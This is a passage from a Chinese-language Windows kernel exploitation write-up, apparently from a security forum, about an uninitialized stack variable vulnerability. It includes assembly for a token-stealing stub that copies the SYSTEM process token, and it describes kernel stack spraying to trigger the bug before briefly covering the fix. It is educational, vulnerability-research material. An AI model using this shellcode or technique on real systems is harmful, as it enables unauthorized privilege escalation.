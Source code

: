 ```
 
        SearchSystemPID:
            mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
            sub eax, FLINK_OFFSET
            cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
            jne SearchSystemPID
 
        mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
        mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                             ; with SYSTEM process nt!_EPROCESS.Token
        ; End of Token Stealing Stub
 
        popad                                ; Restore registers state
        ret
    }
}

```

运行 exp, 喷射成功，提权成功：

 

![](https://bbs.pediy.com/upload/attach/202111/921642_NE4VC27FQ23SRA4.jpg)

 

![](https://bbs.pediy.com/upload/attach/202111/921642_USJWCXFFJ4C68B9.jpg)

 

注意：我们从用户模式控制内核堆栈上的数据。必须防止它被其他函数调用破坏。

 

为此，我们需要防止任何其他函数使用内核堆栈。只需确保在喷射内核栈并触发漏洞后不执行或调用任何其他函数即可。

[](#四：补丁分析)四：补丁分析
-----------------

内核函数栈中的变量定义后，进行初始化，比如源码给的安全版本：

```
UNINITIALIZED_MEMORY_STACK UninitializedMemory = { 0 };

```

[](#五：参考文档)五：参考文档
-----------------

[nt!NtMapUserPhysicalPages and Kernel Stack-Spraying Techniques | j00ru//vx tech blog (vexillium.org)](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/)

 

[Seebug](https://paper.seebug.org/200/)

 

[未初始化的堆栈变量 – Windows 内核开发 (payatu.com)](https://payatu.com/uninitialized-stack-variable)
